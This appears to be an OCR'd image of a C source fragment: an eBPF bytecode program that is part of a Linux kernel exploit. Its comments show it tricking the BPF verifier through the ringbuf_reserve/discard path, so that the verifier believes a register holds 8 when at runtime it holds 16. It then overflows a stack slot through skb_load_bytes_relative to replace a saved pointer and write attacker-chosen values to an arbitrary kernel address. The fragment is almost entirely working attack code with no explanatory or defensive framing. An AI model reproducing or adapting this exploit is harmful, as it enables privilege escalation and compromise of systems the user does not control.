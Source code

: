```c
        BPF_JMP_IMM(BPF_JNE, BPF_REG_0, 0, 2),
        BPF_MOV64_IMM(BPF_REG_0, 1),
        BPF_EXIT_INSN(),

        // r8 = r0
        BPF_MOV64_REG(BPF_REG_8, BPF_REG_0),

        // r0 = bpf_ringbuf_reserve(ctx->ringbuf_fd, PAGE_SIZE, 0)
        BPF_LD_MAP_FD(BPF_REG_1, ctx->ringbuf_fd),
        BPF_MOV64_IMM(BPF_REG_2, PAGE_SIZE),
        BPF_MOV64_IMM(BPF_REG_3, 0x00),
        BPF_RAW_INSN(BPF_JMP | BPF_CALL, 0, 0, 0, BPF_FUNC_ringbuf_reserve),

        BPF_MOV64_REG(BPF_REG_1, BPF_REG_0),
        BPF_ALU64_IMM(BPF_ADD, BPF_REG_1, 1),

        // if (r0 != NULL) { ringbuf_discard(r0, 1); exit(2); }
        BPF_JMP_IMM(BPF_JEQ, BPF_REG_0, 0, 5),
        BPF_MOV64_REG(BPF_REG_1, BPF_REG_0),
        BPF_MOV64_IMM(BPF_REG_2, 1),
        BPF_RAW_INSN(BPF_JMP | BPF_CALL, 0, 0, 0, BPF_FUNC_ringbuf_discard),
        BPF_MOV64_IMM(BPF_REG_0, 2),
        BPF_EXIT_INSN(),

        // verifier believe r0 = 0 and r1 = 0. However, r0 = 0 and  r1 = 1 on runtime.

        // r7 = (r1 + 1) * 8
        BPF_MOV64_REG(BPF_REG_7, BPF_REG_1),
        BPF_ALU64_IMM(BPF_ADD, BPF_REG_7, 1),
        BPF_ALU64_IMM(BPF_MUL, BPF_REG_7, 8),

        // verifier believe r7 = 8, but r7 = 16 actually.

        // store the array pointer
        BPF_STX_MEM(BPF_DW, BPF_REG_10, BPF_REG_8, -8),

        // overwrite array pointer on stack

        // r0 = bpf_skb_load_bytes_relative(r9, 0, r8, r7, 0)
        BPF_MOV64_REG(BPF_REG_1, BPF_REG_9),
        BPF_MOV64_IMM(BPF_REG_2, 0),
        BPF_MOV64_REG(BPF_REG_3, BPF_REG_10),
        BPF_ALU64_IMM(BPF_ADD, BPF_REG_3, -16),
        BPF_MOV64_REG(BPF_REG_4, BPF_REG_7),
        BPF_MOV64_IMM(BPF_REG_5, 1),
        BPF_RAW_INSN(BPF_JMP | BPF_CALL, 0, 0, 0, BPF_FUNC_skb_load_bytes_relative),

        // fetch our arbitrary address pointer
        BPF_LDX_MEM(BPF_DW, BPF_REG_6, BPF_REG_10, -8),
        
        BPF_LDX_MEM(BPF_DW, BPF_REG_0, BPF_REG_8, 0),
        BPF_LDX_MEM(BPF_DW, BPF_REG_1, BPF_REG_8, 8),

        // if (r0 == 0) { *(u64*)r6 = r1 }
        BPF_JMP_IMM(BPF_JNE, BPF_REG_0, 0, 2),
        BPF_STX_MEM(BPF_DW, BPF_REG_6, BPF_REG_1, 0),
        BPF_JMP_IMM(BPF_JA, 0, 0, 1),
        // else { *(u32*)r6 = r1 }
        BPF_STX_MEM(BPF_W, BPF_REG_6, BPF_REG_1, 0),

        BPF_MOV64_IMM(BPF_REG_0, 0),
        BPF_EXIT_INSN()
    };
```